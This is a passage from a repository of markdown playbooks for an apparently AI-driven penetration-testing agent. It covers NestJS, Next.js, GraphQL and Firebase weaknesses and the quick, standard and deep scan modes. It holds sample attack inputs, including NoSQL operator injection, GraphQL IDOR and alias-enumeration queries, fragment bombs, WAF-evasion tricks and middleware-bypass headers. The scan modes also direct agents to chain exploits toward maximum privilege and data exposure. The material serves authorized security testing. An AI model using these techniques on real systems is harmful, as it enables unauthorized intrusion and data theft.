- Eager-loaded TypeORM/Prisma relations exposing entire object graph without careful serialization.

### Interceptor Abuse

**Cache Poisoning**
- `CacheInterceptor` without user/tenant identity in cache key — responses from one user served to another.
- Test: authenticated request, then unauthenticated request returning cached data.

**Response Mapping**
- Transformation interceptors may leak internal entity fields if mapping is incomplete.

### Module Boundary Leaks

**Global Module Exposure**
- `@Global()` modules expose all providers to every module without explicit imports.
- Sensitive services (admin operations, internal APIs) accessible from untrusted modules.

**Config Leaks**
- `forRoot`/`forRootAsync` configuration secrets accessible via `ConfigService` injection in any module.

**Scope Issues**
- Request-scoped providers (`Scope.REQUEST`) incorrectly scoped as DEFAULT (singleton) — request context leaks across concurrent requests.

### WebSocket Gateway

- HTTP guards don't automatically apply to WebSocket gateways — `@UseGuards` must be explicit.
- Authentication deferred from `handleConnection` to message handlers allows unauthenticated message sending.
- Room/namespace authorization: users joining rooms they shouldn't access.
- `@SubscribeMessage()` handlers relying on connection-level auth instead of per-message validation.

### Microservice Transport

- `@MessagePattern`/`@EventPattern` handlers often lack guards (considered "internal").
- If transport (Redis, NATS, Kafka) is network-accessible, messages can be injected bypassing all HTTP security.
- `ValidationPipe` may only be configured for HTTP — microservice payloads skip validation.

### ORM Injection

**TypeORM**
- `QueryBuilder` and `.query()` with template literal interpolation → SQL injection.
- Relations: API allowing specification of which relations to load via query params.

**Mongoose**
- Query operator injection: `{ password: { $gt: "" } }` via unsanitized request body.
- `$where` and `$regex` operators from user input.

**Prisma**
- `$queryRaw`/`$executeRaw` with string interpolation (but not tagged template).
- `$queryRawUnsafe` usage.

### Rate Limiting

- `@SkipThrottle()` on sensitive endpoints (login, password reset, OTP).
- In-memory throttler storage: resets on restart, doesn't work across instances.
- Behind proxy without `trust proxy`: all requests share same IP, or header spoofable.

### CRUD Generators

- Auto-generated CRUD endpoints may not inherit manual guard configurations.
- Bulk operations (`createMany`, `updateMany`) bypassing per-entity authorization.
- Query parameter injection in CRUD libraries: `filter`, `sort`, `join`, `select` exposing unauthorized data.

## Bypass Techniques

- `@Public()` / skip-metadata applied via composed decorators at method level causing global guards to skip via `Reflector` metadata checks
- Route param pollution: `/users/123?id=456` — which `id` wins in guards vs handlers?
- Version routing: v1 of endpoint may still be registered without the guard added to v2
- `X-HTTP-Method-Override` or `_method` processed by Express before guards
- Content-type switching: `application/x-www-form-urlencoded` instead of JSON to bypass JSON-specific validation
- Exception filter differences: guard throwing results in generic error that leaks route existence info

## Testing Methodology

1. **Enumerate** — Fetch Swagger/OpenAPI, map all controllers, resolvers, and gateways
2. **Guard audit** — Map decorator stack per method: which guards, pipes, interceptors are applied at each level
3. **Matrix testing** — Test each endpoint across: unauth/user/admin × HTTP/WS/microservice
4. **Validation probing** — Send extra fields, wrong types, nested objects, arrays to find pipe gaps
5. **Transport parity** — Same operation via HTTP, WebSocket, and microservice transport
6. **Module boundaries** — Check if providers from one module are accessible without proper imports
7. **Serialization check** — Compare raw entity fields with API response fields

## Validation Requirements

- Guard bypass: request to guarded endpoint succeeding without auth, showing guard chain break point
- Validation bypass: payload with extra/malformed fields affecting business logic
- Cross-transport inconsistency: same action authorized via HTTP but exploitable via WebSocket/microservice
- Module boundary leak: accessing provider or data across unauthorized module boundaries
- Serialization leak: response containing excluded fields (passwords, internal metadata)
- IDOR: side-by-side requests from different users showing unauthorized data access
- ORM injection: raw query with user-controlled input returning unauthorized data, or error-based evidence of query structure
- Cache poisoning: response from unauthenticated or different-user request matching a prior authenticated user's cached response
```

## File: `strix/skills/frameworks/nextjs.md`
```markdown
---
name: nextjs
description: Security testing playbook for Next.js covering App Router, Server Actions, RSC, and Edge runtime vulnerabilities
---

# Next.js

Security testing for Next.js applications. Focus on authorization drift across runtimes (Edge/Node), caching boundaries, server actions, and middleware bypass.

## Attack Surface

**Routers**
- App Router (`app/`) and Pages Router (`pages/`) often coexist
- Route Handlers (`app/api/**`) and API routes (`pages/api/**`)
- Middleware: `middleware.ts` at project root

**Runtimes**
- Node.js (full API access)
- Edge (V8 isolates, restricted APIs)

**Rendering & Caching**
- SSR, SSG, ISR, on-demand revalidation
- RSC (React Server Components) with fetch cache
- Draft/preview mode

**Data Paths**
- Server Components, Client Components
- Server Actions (streamed POST with `Next-Action` header)
- `getServerSideProps`, `getStaticProps`

**Integrations**
- NextAuth.js (callbacks, CSRF, callbackUrl)
- `next/image` optimization and remote loaders

## High-Value Targets

- Middleware-protected routes (auth, geo, A/B)
- Admin/staff paths, draft/preview content, on-demand revalidate endpoints
- RSC payloads and flight data, streamed responses
- Image optimizer and custom loaders, remotePatterns/domains
- NextAuth callbacks (`/api/auth/callback/*`), sign-in providers
- Edge-only features (bot protection, IP gates) and their Node equivalents

## Reconnaissance

**Route Discovery**

```javascript
// Browser console - list all routes
console.log(__BUILD_MANIFEST.sortedPages.join('\n'))

// Inspect server-fetched data
JSON.parse(document.getElementById('__NEXT_DATA__').textContent).props.pageProps

// List public environment variables
Object.keys(process.env).filter(k => k.startsWith('NEXT_PUBLIC_'))
```

**Build Artifacts**
```
GET /_next/static/<buildId>/_buildManifest.js
GET /_next/static/<buildId>/_ssgManifest.js
GET /_next/static/chunks/pages/
GET /_next/static/chunks/app/
```
Chunk filenames map to routes (e.g., `admin.js` → `/admin`).

**Source Maps**

Check `/_next/static/` for exposed `.map` files revealing route structure, server action IDs, and internal functions.

**Client Bundle Mining**

Search main-*.js for: `pathname:`, `href:`, `__next_route__`, `serverActions`, API endpoints. Grep for `API_KEY`, `SECRET`, `TOKEN`, `PASSWORD` to find accidentally leaked credentials.

**Server Action Discovery**

Inspect Network tab for POST requests with `Next-Action` header. Extract action IDs from response streams and hydration data.

**Additional Leakage**
- `/sitemap.xml`, `/robots.txt`, `/sitemap-*.xml` for unintended admin/internal/preview paths
- Client bundles/env for secret paths and preview/admin flags (many teams hide routes via UI only)

## Key Vulnerabilities

### Middleware Bypass

**Known Techniques**
- `x-middleware-subrequest` header crafting (CVE-class bypass)
- `x-nextjs-data` probing
- Look for 307 + `x-middleware-rewrite`/`x-nextjs-redirect` headers

**Path Normalization**
```
/api/users
/api/users/
/api//users
/api/./users
```
Middleware may normalize differently than route handlers. Test double slashes, trailing slashes, dot segments.

**Parameter Pollution**
```
?id=1&id=2
?filter[]=a&filter[]=b
```
Middleware checks first value, handler uses last or array.

### Server Actions

- Invoke actions outside UI flow with alternate content-types
- Authorization assumed from client state rather than enforced server-side
- IDOR via object references in action payloads
- Map action IDs from source maps to discover hidden actions

### RSC & Caching

**Cache Boundary Failures**
- User-bound data cached without identity keys (ETag/Set-Cookie unaware)
- Personalized content served from shared cache/CDN
- Missing `no-store` on sensitive fetches

**Flight Data Leakage**

Inspect streamed RSC payloads for serialized sensitive fields in props.

**ISR Issues**
- Stale-while-revalidate responses containing user-specific or tenant-dependent data
- Weak secrets in on-demand revalidation endpoint URLs
- Referer-disclosed tokens or unvalidated hosts triggering `revalidatePath`/`revalidateTag`
- Header-smuggling or method variations to trigger revalidation

### Authentication

**NextAuth Pitfalls**
- Missing/relaxed state/nonce/PKCE per provider (login CSRF, token mix-up)
- Open redirect in `callbackUrl` or mis-scoped allowed hosts
- JWT audience/issuer not enforced across routes
- Cross-service token reuse
- Session hijacking by forcing callbacks

**Session Boundaries**
- Different auth enforcement between App Router and Pages Router
- API routes vs Route Handlers authorization inconsistency

### Data Exposure

**__NEXT_DATA__ Over-fetching**

Server-fetched data passed to client but not rendered:
- Full user objects when only username needed
- Internal IDs, tokens, admin-only fields
- ORM select-all patterns exposing entire records
- API responses forwarded without sanitization (metadata, cursors, debug info)

**Environment-Dependent Exposure**
- Staging/dev accidentally exposes more fields than production
- Inconsistent serialization logic across environments

**Props Inspection**
```javascript
// Check for sensitive data in page props
JSON.parse(document.getElementById('__NEXT_DATA__').textContent).props
```
Look for `_metadata`, `_internal`, `__typename` (GraphQL), nested sensitive objects.

### Image Optimizer SSRF

**Remote Patterns**
- Broad `images.domains`/`remotePatterns` in `next.config.js`
- Test: internal hosts, IPv4/IPv6 variants, DNS rebinding

**Custom Loaders**
- Protocol smuggling via redirect chains
- Cache poisoning via URL normalization differences affecting other users

### Runtime Divergence

**Edge vs Node**
- Defenses relying on Node-only modules skipped on Edge
- Header trust differs (`x-forwarded-*` handling)
- Same route may behave differently across runtimes

### Client-Side

**XSS Vectors**
- `dangerouslySetInnerHTML`
- Markdown renderers
- User-controlled href/src attributes
- Validate CSP/Trusted Types coverage for SSR/CSR/hydration

**Hydration Mismatches**

Server vs client render differences can enable gadget-based XSS.

### Draft/Preview Mode

- Secret URLs/cookies enabling preview
- Preview secrets leaked in client bundles/env
- Setting preview cookies from subdomains or via open redirects

## Bypass Techniques

- Content-type switching: `application/json` ↔ `multipart/form-data` ↔ `application/x-www-form-urlencoded`
- Method override: `_method`, `X-HTTP-Method-Override`, GET on endpoints accepting writes
- Case/param aliasing and query duplication affecting middleware vs handler parsing
- Cache key confusion at CDN/proxy (lack of Vary on auth cookies/headers)

## Testing Methodology

1. **Enumerate** - Use `__BUILD_MANIFEST`, source maps, build artifacts, sitemap/robots to map all routes
2. **Runtime matrix** - Test each route under Edge and Node runtimes
3. **Role matrix** - Test as unauth/user/admin across SSR, API routes, Route Handlers, Server Actions
4. **Cache probing** - Verify caching respects identity (strip cookies, alter Vary headers, check ETags)
5. **Middleware validation** - Test path variants and header manipulation for bypass
6. **Cross-router** - Compare authorization between App Router and Pages Router paths

## Validation Requirements

- Side-by-side requests showing cross-user/tenant access
- Cache boundary failure proof (response diffs, ETag collisions)
- Server action invocation outside UI with insufficient auth
- Middleware bypass with explicit headers showing protected content access
- Runtime parity checks (Edge vs Node inconsistent enforcement)
- Discovered routes verified as deployed (200/403) not just build artifacts (404)
- Leaked credentials tested with minimal read-only calls; filter placeholders
- `__NEXT_DATA__` exposure: verify cross-user (User A's props shouldn't contain User B's PII), confirm exposed fields not in DOM
- Path normalization bypasses: show differential responses (403 vs 200), redirects don't count
```

## File: `strix/skills/protocols/graphql.md`
```markdown
---
name: graphql
description: GraphQL security testing covering introspection, resolver injection, batching attacks, and authorization bypass
---

# GraphQL

Security testing for GraphQL APIs. Focus on resolver-level authorization, field/edge access control, batching abuse, and federation trust boundaries.

## Attack Surface

**Operations**
- Queries, mutations, subscriptions
- Persisted queries / Automatic Persisted Queries (APQ)

**Transports**
- HTTP POST/GET with `application/json` or `application/graphql`
- WebSocket: graphql-ws, graphql-transport-ws protocols
- Multipart for file uploads

**Schema Features**
- Introspection (`__schema`, `__type`)
- Directives: `@defer`, `@stream`, custom auth directives (@auth, @private)
- Custom scalars: Upload, JSON, DateTime
- Relay: global node IDs, connections/cursors, interfaces/unions

**Architecture**
- Federation (Apollo, GraphQL Mesh): `_service`, `_entities`
- Gateway vs subgraph authorization boundaries

## Reconnaissance

**Endpoint Discovery**
```
POST /graphql         {"query":"{__typename}"}
POST /api/graphql     {"query":"{__typename}"}
POST /v1/graphql      {"query":"{__typename}"}
POST /gql             {"query":"{__typename}"}
GET  /graphql?query={__typename}
```

Check for GraphiQL/Playground exposure with credentials enabled (cross-origin with cookies can leak data via postMessage bridges).

**Schema Acquisition**

If introspection enabled:
```graphql
{__schema{types{name fields{name args{name}}}}}
```

If disabled, infer schema via:
- `__typename` probes on candidate fields
- Field suggestion errors (submit near-miss names to harvest suggestions)
- "Expected one of" errors revealing enum values
- Type coercion errors exposing field structure
- Error taxonomy: different codes for "unknown field" vs "unauthorized field" reveal existence

**Schema Mapping**

Map: root operations, object types, interfaces/unions, directives, custom scalars. Identify sensitive fields: email, tokens, roles, billing, API keys, admin flags, file URLs. Note cascade paths where child resolvers may skip auth under parent assumptions.

## Key Vulnerabilities

### Authorization Bypass

**Field-Level IDOR**

Test with aliases comparing owned vs foreign objects in single request:
```graphql
query {
  own: order(id:"OWNED_ID") { id total owner { email } }
  foreign: order(id:"FOREIGN_ID") { id total owner { email } }
}
```

**Edge/Child Resolver Gaps**

Parent resolver checks auth, child resolver assumes it's already validated:
```graphql
query {
  user(id:"FOREIGN") {
    id
    privateData { secrets }  # Child may skip auth check
  }
}
```

**Relay Node Resolution**

Decode base64 global IDs, swap type/id pairs:
```graphql
query {
  node(id:"VXNlcjoxMjM=") { ... on User { email } }
}
```
Ensure per-type authorization is enforced inside resolvers. Verify connection filters (owner/tenant) apply before pagination; cursor tampering should not cross ownership boundaries.

**Mutation Bypass**
- Probe mutations for partial updates bypassing validation (JSON Merge Patch semantics)
- Test mutations that accept extra fields passed to downstream logic

### Batching & Alias Abuse

**Enumeration via Aliases**
```graphql
query {
  u1:user(id:"1"){email}
  u2:user(id:"2"){email}
  u3:user(id:"3"){email}
}
```
Bypasses per-request rate limits; exposes per-field vs per-request auth inconsistencies.

**Array Batching**

If supported (non-standard), submit multiple operations to achieve partial failures and bypass limits.

### Input Manipulation

**Type Confusion**
```
{id: 123}      vs {id: "123"}
{id: [123]}    vs {id: null}
{id: 0}        vs {id: -1}
```

**Duplicate Keys**
```json
{"id": 1, "id": 2}
```
Parser precedence varies; may bypass validation. Also test default argument values.

**Extra Fields**

Send unexpected keys in input objects; backends may pass them to resolvers or downstream logic.

### Cursor Manipulation

Decode cursors (usually base64) to:
- Manipulate offsets/IDs
- Skip filters
- Cross ownership boundaries

### Directive Abuse

**@defer/@stream**
```graphql
query {
  me { id }
  ... @defer { adminPanel { secrets } }
}
```
May return gated data in incremental delivery. Confirm server supports incremental delivery.

**Custom Directives**

@auth, @private and similar directives often annotate intent but do not enforce—verify actual checks in each resolver path.

### Complexity Attacks

**Fragment Bombs**
```graphql
fragment x on User { friends { ...x } }
query { me { ...x } }
```
Test depth/complexity limits, query cost analyzers, timeouts.

**Wide Selection Sets**

Abuse selection sets and fragments to force overfetching of sensitive subfields.

### Federation Exploitation

**SDL Exposure**
```graphql
query { _service { sdl } }
```

**Entity Materialization**
```graphql
query {
  _entities(representations:[
    {__typename:"User", id:"TARGET_ID"}
  ]) { ... on User { email roles } }
}
```
Gateway may enforce auth; subgraph resolvers may not. Look for cross-subgraph IDOR via inconsistent ownership checks.

### Subscription Security

- Authorization at handshake only, not per-message
- Subscribe to other users' channels via filter args
- Cross-tenant event leakage
- Abuse filter args in subscription resolvers to reference foreign IDs

### Persisted Query Abuse

- APQ hashes leaked from client bundles
- Replay privileged operations with attacker variables
- Hash bruteforce for common operations
- Validate hash→operation mapping enforces principal and operation allowlists

### CORS & CSRF

- Cookie-auth with GET queries enables CSRF on mutations via query parameters
- GraphiQL/Playground cross-origin with credentials leaks data
- Missing SameSite and origin validation

### File Uploads

GraphQL multipart spec:
- Multiple Upload scalars
- Filename/path traversal tricks
- Unexpected content-types, oversize chunks
- Server-side ownership/scoping for returned URLs

## WAF Evasion

**Query Reshaping**
- Comments and block strings (`"""..."""`)
- Unicode escapes
- Alias/fragment indirection
- JSON variables vs inline args
- GET vs POST vs `application/graphql`

**Fragment Splitting**

Split fields across fragments and inline spreads to avoid naive signatures:
```graphql
fragment a on User { email }
fragment b on User { password }
query { me { ...a ...b } }
```

## Bypass Techniques

**Transport Switching**
```
Content-Type: application/json
Content-Type: application/graphql
Content-Type: multipart/form-data
GET with query params
```

**Timing & Rate Limits**
- HTTP/2 multiplexing and connection reuse to widen timing windows
- Batching to bypass rate limits

**Naming Tricks**
- Case/underscore variations
- Unicode homoglyphs (server-dependent)
- Aliases masking sensitive field names

**Cache Confusion**
- CDN caching without Vary on Authorization
- Variable manipulation affecting cache keys
- Redirects and 304/206 behaviors leaking partial responses

## Testing Methodology

1. **Fingerprint** - Identify endpoints, transports, stack (Apollo, Hasura, etc.), GraphiQL exposure
2. **Schema mapping** - Introspection or inference to build complete type graph
3. **Principal matrix** - Collect tokens for unauth, user, premium, admin roles with at least one valid object ID per subject
4. **Field sweep** - Test each resolver with owned vs foreign IDs via aliases in same request
5. **Transport parity** - Verify same auth on HTTP, WebSocket, persisted queries
6. **Federation probe** - Test `_service` and `_entities` for subgraph auth gaps
7. **Edge cases** - Cursors, @defer/@stream, subscriptions, file uploads

## Validation Requirements

- Paired requests (owner vs non-owner) showing unauthorized access
- Resolver-level bypass: parent checks present, child field exposes data
- Transport parity proof: HTTP and WebSocket for same operation
- Federation bypass: `_entities` accessing data without subgraph auth
- Minimal payloads with exact selection sets and variable shapes
- Document exact resolver paths that missed enforcement
```

## File: `strix/skills/scan_modes/deep.md`
```markdown
---
name: deep
description: Exhaustive security assessment with maximum coverage, depth, and vulnerability chaining
---

# Deep Testing Mode

Exhaustive security assessment. Maximum coverage, maximum depth. Finding what others miss is the goal.

## Approach

Thorough understanding before exploitation. Test every parameter, every endpoint, every edge case. Chain findings for maximum impact.

## Phase 1: Exhaustive Reconnaissance

**Whitebox (source available)**
- Map every file, module, and code path in the repository
- Trace all entry points from HTTP handlers to database queries
- Document all authentication mechanisms and implementations
- Map authorization checks and access control model
- Identify all external service integrations and API calls
- Analyze configuration for secrets and misconfigurations
- Review database schemas and data relationships
- Map background jobs, cron tasks, async processing
- Identify all serialization/deserialization points
- Review file handling: upload, download, processing
- Understand the deployment model and infrastructure assumptions
- Check all dependency versions against CVE databases

**Blackbox (no source)**
- Exhaustive subdomain enumeration with multiple sources and tools
- Full port scanning across all services
- Complete content discovery with multiple wordlists
- Technology fingerprinting on all assets
- API discovery via docs, JavaScript analysis, fuzzing
- Identify all parameters including hidden and rarely-used ones
- Map all user roles with different account types
- Document rate limiting, WAF rules, security controls
- Document complete application architecture as understood from outside

## Phase 2: Business Logic Deep Dive

Create a complete storyboard of the application:

- **User flows** - document every step of every workflow
- **State machines** - map all transitions (Created → Paid → Shipped → Delivered)
- **Trust boundaries** - identify where privilege changes hands
- **Invariants** - what rules should the application always enforce
- **Implicit assumptions** - what does the code assume that might be violated
- **Multi-step attack surfaces** - where can normal functionality be abused
- **Third-party integrations** - map all external service dependencies

Use the application extensively as every user type to understand the full data lifecycle.

## Phase 3: Comprehensive Attack Surface Testing

Test every input vector with every applicable technique.

**Input Handling**
- Multiple injection types: SQL, NoSQL, LDAP, XPath, command, template
- Encoding bypasses: double encoding, unicode, null bytes
- Boundary conditions and type confusion
- Large payloads and buffer-related issues

**Authentication & Session**
- Exhaustive brute force protection testing
- Session fixation, hijacking, prediction
- JWT/token manipulation
- OAuth flow abuse scenarios
- Password reset vulnerabilities: token leakage, reuse, timing
- MFA bypass techniques
- Account enumeration through all channels

**Access Control**
- Test every endpoint for horizontal and vertical access control
- Parameter tampering on all object references
- Forced browsing to all discovered resources
- HTTP method tampering (GET vs POST vs PUT vs DELETE)
- Access control after session state changes (logout, role change)

**File Operations**
- Exhaustive file upload bypass: extension, content-type, magic bytes
- Path traversal on all file parameters
- SSRF through file inclusion
- XXE through all XML parsing points

**Business Logic**
- Race conditions on all state-changing operations
- Workflow bypass on every multi-step process
- Price/quantity manipulation in transactions
- Parallel execution attacks
- TOCTOU (time-of-check to time-of-use) vulnerabilities

**Advanced Techniques**
- HTTP request smuggling (multiple proxies/servers)
- Cache poisoning and cache deception
- Subdomain takeover
- Prototype pollution (JavaScript applications)
- CORS misconfiguration exploitation
- WebSocket security testing
- GraphQL-specific attacks (introspection, batching, nested queries)

## Phase 4: Vulnerability Chaining

Individual bugs are starting points. Chain them for maximum impact:

- Combine information disclosure with access control bypass
- Chain SSRF to reach internal services
- Use low-severity findings to enable high-impact attacks
- Build multi-step attack paths that automated tools miss
- Cross component boundaries: user → admin, external → internal, read → write, single-tenant → cross-tenant

**Chaining Principles**
- Treat every finding as a pivot point: ask "what does this unlock next?"
- Continue until reaching maximum privilege / maximum data exposure / maximum control
- Prefer end-to-end exploit paths over isolated bugs: initial foothold → pivot → privilege gain → sensitive action/data
- Validate chains by executing the full sequence (proxy + browser for workflows, python for automation)
- When a pivot is found, spawn focused agents to continue the chain in the next component

## Phase 5: Persistent Testing

When initial attempts fail:

- Research technology-specific bypasses
- Try alternative exploitation techniques
- Test edge cases and unusual functionality
- Test with different client contexts
- Revisit areas with new information from other findings
- Consider timing-based and blind exploitation
- Look for logic flaws that require deep application understanding

## Phase 6: Comprehensive Reporting

- Document every confirmed vulnerability with full details
- Include all severity levels—low findings may enable chains
- Complete reproduction steps and working PoC
- Remediation recommendations with specific guidance
- Note areas requiring additional review beyond current scope

## Agent Strategy

After reconnaissance, decompose the application hierarchically:

1. **Component level** - Auth System, Payment Gateway, User Profile, Admin Panel
2. **Feature level** - Login Form, Registration API, Password Reset
3. **Vulnerability level** - SQLi Agent, XSS Agent, Auth Bypass Agent

Spawn specialized agents at each level. Scale horizontally to maximum parallelization:
- Do NOT overload a single agent with multiple vulnerability types
- Each agent focuses on one specific area or vulnerability type
- Creates a massive parallel swarm covering every angle

## Mindset

Relentless. Creative. Patient. Thorough. Persistent.

This is about finding what others miss. Test every parameter, every endpoint, every edge case. If one approach fails, try ten more. Understand how components interact to find systemic issues.
```

## File: `strix/skills/scan_modes/quick.md`
```markdown
---
name: quick
description: Time-boxed rapid assessment targeting high-impact vulnerabilities
---

# Quick Testing Mode

Time-boxed assessment focused on high-impact vulnerabilities. Prioritize breadth over depth.

## Approach

Optimize for fast feedback on critical security issues. Skip exhaustive enumeration in favor of targeted testing on high-value attack surfaces.

## Phase 1: Rapid Orientation

**Whitebox (source available)**
- Focus on recent changes: git diffs, new commits, modified files—these are most likely to contain fresh bugs
- Identify security-sensitive patterns in changed code: auth checks, input handling, database queries, file operations
- Trace user input through modified code paths
- Check if security controls were modified or bypassed

**Blackbox (no source)**
- Map authentication and critical user flows
- Identify exposed endpoints and entry points
- Skip deep content discovery—test what's immediately accessible

## Phase 2: High-Impact Targets

Test in priority order:

1. **Authentication bypass** - login flaws, session issues, token weaknesses
2. **Broken access control** - IDOR, privilege escalation, missing authorization
3. **Remote code execution** - command injection, deserialization, SSTI
4. **SQL injection** - authentication endpoints, search, filters
5. **SSRF** - URL parameters, webhooks, integrations
6. **Exposed secrets** - hardcoded credentials, API keys, config files

Skip for quick scans:
- Exhaustive subdomain enumeration
- Full directory bruteforcing
- Low-severity information disclosure
- Theoretical issues without working PoC

## Phase 3: Validation

- Confirm exploitability with minimal proof-of-concept
- Demonstrate real impact, not theoretical risk
- Report findings immediately as discovered

## Chaining

When a strong primitive is found (auth weakness, injection point, internal access), immediately attempt one high-impact pivot to demonstrate maximum severity. Don't stop at a low-context "maybe"—turn it into a concrete exploit sequence that reaches privileged action or sensitive data.

## Operational Guidelines

- Use browser tool for quick manual testing of critical flows
- Use terminal for targeted scans with fast presets (e.g., nuclei with critical/high templates only)
- Use proxy to inspect traffic on key endpoints
- Skip extensive fuzzing—use targeted payloads only
- Create subagents only for parallel high-priority tasks

## Mindset

Think like a time-boxed bug bounty hunter going for quick wins. Prioritize breadth over depth on critical areas. If something looks exploitable, validate quickly and move on. Don't get stuck—if an attack vector isn't yielding results quickly, pivot.
```

## File: `strix/skills/scan_modes/standard.md`
```markdown
---
name: standard
description: Balanced security assessment with systematic methodology and full attack surface coverage
---

# Standard Testing Mode

Balanced security assessment with structured methodology. Thorough coverage without exhaustive depth.

## Approach

Systematic testing across the full attack surface. Understand the application before exploiting it.

## Phase 1: Reconnaissance

**Whitebox (source available)**
- Map codebase structure: modules, entry points, routing
- Identify architecture pattern (MVC, microservices, monolith)
- Trace input vectors: forms, APIs, file uploads, headers, cookies
- Review authentication and authorization flows
- Analyze database interactions and ORM usage
- Check dependencies for known CVEs
- Understand the data model and sensitive data locations

**Blackbox (no source)**
- Crawl application thoroughly, interact with every feature
- Enumerate endpoints, parameters, and functionality
- Fingerprint technology stack
- Map user roles and access levels
- Capture traffic with proxy to understand request/response patterns

## Phase 2: Business Logic Analysis

Before testing for vulnerabilities, understand the application:

- **Critical flows** - payments, registration, data access, admin functions
- **Role boundaries** - what actions are restricted to which users
- **Data access rules** - what data should be isolated between users
- **State transitions** - order lifecycle, account status changes
- **Trust boundaries** - where does privilege or sensitive data flow

## Phase 3: Systematic Testing

Test each attack surface methodically. Spawn focused subagents for different areas.

**Input Validation**
- Injection testing on all input fields (SQL, XSS, command, template)
- File upload bypass attempts
- Search and filter parameter manipulation
- Redirect and URL parameter handling

**Authentication & Session**
- Brute force protection
- Session token entropy and handling
- Password reset flow analysis
- Logout session invalidation
- Authentication bypass techniques

**Access Control**
- Horizontal: user A accessing user B's resources
- Vertical: unprivileged user accessing admin functions
- API endpoints vs UI access control consistency
- Direct object reference manipulation

**Business Logic**
- Multi-step process bypass (skip steps, reorder)
- Race conditions on state-changing operations
- Boundary conditions: negative values, zero, extremes
- Transaction replay and manipulation

## Phase 4: Exploitation

- Every finding requires a working proof-of-concept
- Demonstrate actual impact, not theoretical risk
- Chain vulnerabilities to show maximum severity
- Document full attack path from entry to impact
- Use python tool for complex exploit development

## Phase 5: Reporting

- Document all confirmed vulnerabilities with reproduction steps
- Severity based on exploitability and business impact
- Remediation recommendations
- Note areas requiring further investigation

## Chaining

Always ask: "If I can do X, what does that enable next?" Keep pivoting until reaching maximum privilege or data exposure.

Prefer complete end-to-end paths (entry point → pivot → privileged action/data) over isolated findings. Use the application as a real user would—exploit must survive actual workflow and state transitions.

When you discover a useful pivot (info leak, weak boundary, partial access), immediately pursue the next step rather than stopping at the first win.

## Mindset

Methodical and systematic. Document as you go. Validate everything—no assumptions about exploitability. Think about business impact, not just technical severity.
```

## File: `strix/skills/technologies/firebase_firestore.md`
```markdown
---
name: firebase-firestore
description: Firebase/Firestore security testing covering security rules, Cloud Functions, and client-side trust issues
---

# Firebase / Firestore

Security testing for Firebase applications. Focus on Firestore/Realtime Database rules, Cloud Storage exposure, callable/onRequest Functions trusting client input, and incorrect ID token validation.

## Attack Surface

**Data Stores**
- Firestore (documents/collections, rules, REST/SDK)
- Realtime Database (JSON tree, rules)
- Cloud Storage (rules, signed URLs)

**Authentication**
- Auth ID tokens, custom claims, anonymous/sign-in providers
- App Check attestation (and its limits)

**Server-Side**
- Cloud Functions (onCall/onRequest, triggers)
- Admin SDK (bypasses rules)

**Infrastructure**
- Hosting rewrites, CDN/caching, CORS

## Architecture

**Endpoints**
- Firestore REST: `https://firestore.googleapis.com/v1/projects/<project>/databases/(default)/documents/<path>`
- Realtime DB: `https://<project>.firebaseio.com/.json`
- Storage REST: `https://storage.googleapis.com/storage/v1/b/<bucket>`

**Auth**
- Google-signed ID tokens (iss: `accounts.google.com` or `securetoken.google.com/<project>`)
- Audience: `<project>` or `<app-id>`, identity in `sub`/`uid`
- Rules engines: separate for Firestore, Realtime DB, and Storage
- Functions bypass rules when using Admin SDK

## High-Value Targets

- Firestore collections with sensitive data (users, orders, payments)
- Realtime Database root and high-level nodes
- Cloud Storage buckets with private files
- Cloud Functions (especially triggers that grant roles or issue signed URLs)
- Admin/staff routes and privilege-granting endpoints
- Export/report functions that generate signed outputs

## Reconnaissance

**Extract Project Config**

From client bundle:
```javascript
// apiKey, authDomain, projectId, appId, storageBucket, messagingSenderId
firebase.apps[0].options
```

**Obtain Principals**
- Unauthenticated
- Anonymous (if enabled)
- Basic user A, user B
- Staff/admin (if available)

Capture ID tokens for each.

## Key Vulnerabilities

### Firestore Rules

Rules are not filters—a query must include constraints that make the rule true for all returned documents.

**Common Gaps**
- `allow read: if request.auth != null` — any authenticated user reads all data
- `allow write: if request.auth != null` — mass write access
- Missing per-field validation (allows adding `isAdmin`/`role`/`tenantId` fields)
- Using client-supplied `ownerId`/`orgId` instead of `resource.data.ownerId == request.auth.uid`
- Over-broad list rules on root collections (per-doc checks exist but list still leaks)

**Secure Patterns**
```javascript
// Restrict write fields
request.resource.data.keys().hasOnly(['field1', 'field2', 'field3'])

// Enforce ownership
resource.data.ownerId == request.auth.uid &&
request.resource.data.ownerId == request.auth.uid

// Org membership check
exists(/databases/(default)/documents/orgs/$(org)/members/$(request.auth.uid))
```

**Tests**
- Compare results for users A/B on identical queries; diff counts and IDs
- Cross-tenant reads: `where orgId == otherOrg`; try queries without org filter
- Write-path: set/patch with foreign `ownerId`/`orgId`; attempt to flip privilege flags

### Firestore Queries

- Use REST to avoid SDK client-side constraints
- Probe composite index requirements (UI-driven queries may hide missing rule coverage)
- Explore `collectionGroup` queries that may bypass per-collection rules
- Use `startAt`/`endAt`/`in`/`array-contains` to probe rule edges and pagination cursors

### Realtime Database

- Misconfigured rules frequently expose entire JSON trees
- Probe `https://<project>.firebaseio.com/.json` with and without auth
- Confirm rules use `auth.uid` and granular path checks
- Avoid `.read/.write: true` or `auth != null` at high-level nodes
- Attempt to write privilege-bearing nodes (roles, org membership)

### Cloud Storage

**Common Issues**
- Public reads on sensitive buckets/paths
- Signed URLs with long TTL, no content-disposition controls, replayable across tenants
- List operations exposed: `/o?prefix=` enumerates object keys

**Tests**
- GET gs:// paths via HTTPS without auth; verify Content-Type and `Content-Disposition: attachment`
- Generate and reuse signed URLs across accounts and paths; try case/URL-encoding variants
- Upload HTML/SVG and verify `X-Content-Type-Options: nosniff`; check for script execution

### Cloud Functions

`onCall` provides `context.auth` automatically; `onRequest` must verify ID tokens explicitly. Admin SDK bypasses rules—all ownership/tenant checks must be in code.

**Common Gaps**
- Trusting client `uid`/`orgId` from request body instead of `context.auth`
- Missing `aud`/`iss` verification when manually parsing tokens
- Over-broad CORS allowing credentialed cross-origin requests
- Triggers (onCreate/onWrite) granting roles based on document content controlled by client

**Tests**
- Call both onCall and onRequest endpoints with varied tokens; expect identical decisions
- Create crafted docs to trigger privilege-granting functions
- Attempt SSRF via Functions to project/metadata endpoints

### Auth & Token Issues

**Verification Requirements**
- Issuer, audience (project), signature (Google JWKS), expiration
- Optionally App Check binding when used

**Pitfalls**
- Accepting any JWT with valid signature but wrong audience/project
- Trusting `uid`/account IDs from request body instead of `context.auth.uid`
- Mixing session cookies and ID tokens without verifying both paths equivalently
- Custom claims copied into docs then trusted by app code

**Tests**
